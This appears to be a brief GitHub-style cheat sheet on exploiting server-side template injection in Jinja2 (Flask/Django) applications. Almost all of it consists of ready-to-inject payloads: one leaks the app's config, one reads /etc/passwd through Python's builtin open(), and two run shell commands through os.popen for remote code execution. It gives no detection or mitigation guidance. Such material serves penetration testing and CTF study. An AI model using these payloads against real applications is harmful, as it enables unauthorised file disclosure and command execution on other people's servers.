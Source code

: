 # Exploiting SSTI - Jinja2
***
#### Jinja is usually used in Python web frameworks such as ***Flask*** or ***Django***.
#### To build our payloads, we can use any libraries tht are already imported by the Python application. Additionally, we may be able to import additional libraries using the ***import*** statement.

### Information Disclosure
#### In order to obtain internal information about the web application for instance,  configuration details we can inject the following payload:
```
{{ config.items() }}
```
#### Also, we can use run Python code to obtain information about the web application's source code.
```
{{ self.__init__.__globals__.__builtins__ }}
```

### Local File Inclusion (LFI)
#### Using the Python's built-in function **open** to include a local file:
```
{{ self.__init__.__globals__.__builtins__.open("/etc/passwd").read() }}
```

### Remote Code Execution (RCE)
#### Through the functions provided by the ***os*** library, such as **system** or **popen**, in Python, it possible to exploit RCE
#### When the web application has not imported this library, we first need to import it by calling the import function.
```jinja2
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

```jinja2
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat+{file}').read() }}
```
